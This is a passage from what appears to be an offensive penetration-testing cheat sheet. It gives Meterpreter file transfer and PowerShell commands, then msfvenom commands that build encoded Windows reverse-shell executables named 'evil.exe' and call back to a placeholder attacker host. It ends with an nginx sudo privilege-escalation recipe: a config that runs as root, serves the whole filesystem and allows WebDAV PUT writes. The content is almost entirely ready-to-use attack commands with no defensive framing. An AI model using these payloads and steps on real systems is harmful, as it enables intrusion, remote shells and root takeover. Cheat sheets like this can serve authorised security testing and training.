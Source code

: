### Upload file from Metasploit host to target
```
upload <filepath>
```

### Download file from target to Metasploit host
```
download <filepath>
```

### Load powershell and run
```
load powershell
powershell_shell
```
## msfvenom
This tool creates a payload, such as reverse shell, embedded in a file.

### Windows
#### exe
```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -e x86/shikata_ga_nai -f exe -o evil.exe
```
#### exe-service
```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -e x86/shikata_ga_nai -f exe-service -o evil.exe
```

# Nginx
## Malicious conf file to get root privilege
Check running the nginx by using sudo:
```shell
sudo -l

(ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Create the following conf file to access '/':
```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
    worker_connections 768;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;

        dav_methods PUT;
    }
}
```
